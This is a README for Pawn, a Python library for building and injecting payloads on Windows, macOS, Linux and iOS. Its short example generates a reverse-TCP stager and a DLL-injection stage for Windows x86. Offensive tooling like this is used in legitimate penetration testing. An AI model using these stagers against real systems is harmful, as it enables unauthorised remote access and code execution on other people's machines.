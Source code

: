 # Pawn

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS`.
* Support for such techniques like `Reflective DLL Injection` and `ELF in-memory execution`.
* Can generate stage0, stage1 and dynamic extensions for Pwny.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of preparing stage0 and stage1 (which is DLL) for Windows x86.

```python
from pawn.windows.x86 import ReverseTCP, Bootstrap

stage0 = ReverseTCP().generate_reverse_tcp()
stage1 = Bootstrap().inject_dll("/tmp/pwny.dll")

print(len(stage0), len(stage1))
```

## Special Thanks

* Some parts of **Windows assembly code** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
